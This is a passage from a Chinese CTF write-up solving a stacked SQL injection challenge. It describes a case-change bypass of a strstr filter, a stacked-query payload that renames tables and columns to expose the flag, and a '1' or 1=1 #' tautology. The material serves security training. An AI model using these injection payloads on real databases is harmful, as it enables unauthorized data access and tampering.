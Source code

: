  然而：又过滤了一下下

 ![](img/2b50682234873ca672c9d15f771773bd.png)

 但是strstr可以用大小写绕过于是换一下大小写okk

![](img/fa1fe4084c1c6b70c982ed97afc8e460.png)

 还有一种题解：更改表名列名，我们将表1919810931114514名字改为words，flag列名字改为id，那么就能得到flag的内容了。

```
修改表名(将表名user改为users)
alter table user rename to users;

修改列名(将字段名username改为name)
alter table users change uesrname name varchar(30);
```

```
1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#

拆分开来如下
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);
#
```

 然后使用`1' or 1=1 #`即可查询出flag.

源码很明显的地方，使用multi_query()执行一条或多条sql语句，然后将结果全部输出，因此可以判断是堆叠注入。

## 5.[ACTF2020 新生赛]Include

![](img/8665063083e657ed8366b84ef34031cc.png)
